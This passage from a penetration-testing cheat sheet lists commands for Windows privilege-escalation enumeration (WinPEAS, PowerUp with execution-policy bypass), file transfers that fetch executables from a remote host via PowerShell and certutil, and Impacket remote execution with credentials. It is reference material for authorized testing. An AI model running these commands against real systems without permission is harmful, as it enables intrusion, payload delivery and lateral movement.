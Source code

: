 **Windows:**
```bash
# WinPEAS
.\winPEASx64.exe

# PowerUp
powershell -ep bypass -c ". .\PowerUp.ps1; Invoke-AllChecks"
```

### File Transfer Methods

**Linux:**
```bash
# Start Python HTTP server
python3 -m http.server 8000

# Download with wget
wget http://192.168.1.100:8000/file.txt

# Download with curl
curl http://192.168.1.100:8000/file.txt -o file.txt
```

**Windows:**
```bash
# PowerShell download
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.100:8000/file.exe', 'file.exe')"

# Certutil
certutil -urlcache -split -f "http://192.168.1.100:8000/file.exe" file.exe
```

### Impacket Tools
Collection of Python scripts for working with network protocols.

```bash
# SMB server for file transfers
impacket-smbserver share $(pwd) -smb2support

# PSExec-like functionality
impacket-psexec administrator:password@10.10.10.10

# WMI execution
impacket-wmiexec administrator:password@10.10.10.10
```

## Documentation Tools

### Screenshot Tools

```bash
# Command line screenshot
scrot -s screenshot.png

# Flameshot (GUI tool)
flameshot gui
```
